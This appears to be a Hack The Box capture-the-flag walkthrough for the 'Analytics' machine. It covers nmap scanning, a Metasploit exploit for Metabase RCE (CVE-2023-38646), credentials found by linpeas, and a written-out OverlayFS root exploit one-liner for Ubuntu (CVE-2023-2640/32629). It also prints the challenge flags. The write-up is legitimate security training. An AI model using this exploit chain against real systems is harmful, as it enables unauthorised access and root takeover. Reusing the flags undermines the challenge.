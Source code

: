 ```yaml
---
layout: post
title: "Hack The Box Analytics Walkthrough"
categories: guide
author:
- th4ntis
---
```


This is my walkthrough for HackTheBox [Analytics Box](https://app.hackthebox.com/machines/Analytics)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(840).png)

First we scan the Machine

```bash
nmap -T4 -Pn -v 10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(841).png)

We see port 22 and 80 open.

Browse to the website and we get an error, add the IP and domain to the hosts file.&#x20;

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(842).png)

Now going back to the website we can look around!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(843).png)

Looking around, we see the Login page at the top. Checking that out, it doesn't work BUT the URL has changed to `data.analytical.htb`, so let's add that to the hosts file as well.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(844).png)

When looking we see it's running Metabase.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(845).png)

Search for Metabase exploits on google as well as in metasploit. I find [this blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) talking about Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)

In Metasploit we see a potential exploit

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(846).png)

Let's check the options and set them

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(847).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(848).png)

Send the exploit....

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(849).png)

We have a shell! Now let's see if we can get and run linpeas.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(850).png)

We can! Run it!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(851).png)

We see in the "Environment" section, a user and a password

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(852).png)

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's ssh into the machine with the newly discovered username and password.

```bash
ssh metalytics@10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(853).png)

Got the user flag! `5f24e4536b318d506fe1a38fbbd959fa`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(854).png)

### Priv Escalation

I seen we were running Ubuntu 22.04.3 as we logged in.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(855).png)

A simple google search for "Ubuntu 22.04.3 priv escalation" shows me [this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu\_local\_privilege\_escalation\_cve20232640/) about Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629) with multiple references. They list how you can get root using the OverlayFS module with this command:

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
```

We have root! `f35c47aac97cb1a6b5450d4eb024a3cc`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(856).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(857).png)
